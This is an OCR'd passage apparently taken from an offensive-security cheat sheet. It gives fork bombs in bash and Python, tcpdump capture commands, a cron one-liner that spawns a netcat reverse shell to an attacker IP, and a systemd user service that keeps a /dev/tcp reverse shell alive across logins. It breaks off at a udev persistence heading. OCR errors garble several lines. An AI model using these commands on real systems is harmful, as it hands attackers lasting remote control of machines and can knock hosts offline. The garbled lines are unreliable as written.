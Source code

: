 ```bash
:(){:I: &I;:
```

Python:

```python
#!/usr/bin/env python

    import os
    while True: os.fork()
```

## TCPDump

```bash
tcpdump -i ethO -XX -w out.pcap
tcpdump -i ethO port XX dst X.X.X.X
```

## One Liner to Add Persistence on a Box via Cron

```sh
echo "* * * * * /bin/nc <attacker IP> 1234 -e /bin/bash" > cron && crontab cron
```

On the attack platform: ```nc -lvp 1234```

## Systemd User Level Persistence

Place a service file in ```~/.config/systemd/user/```

```sh
vim ~/.config/systemd/user/persistence.service
```

Sample file:

```sh
[Unit]
Description=Reverse shell[Service]
ExecStart=/usr/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.1/9999 0>&1'
Restart=always
RestartSec=60[Install]
WantedBy=default.target
```

Enable service and start service:

```sh
systemctl --user enable persistence.service
systemctl --user start persistence.service
```

On the next user login systemd will happily start a reverse shell.

## Udev Rules Persistence
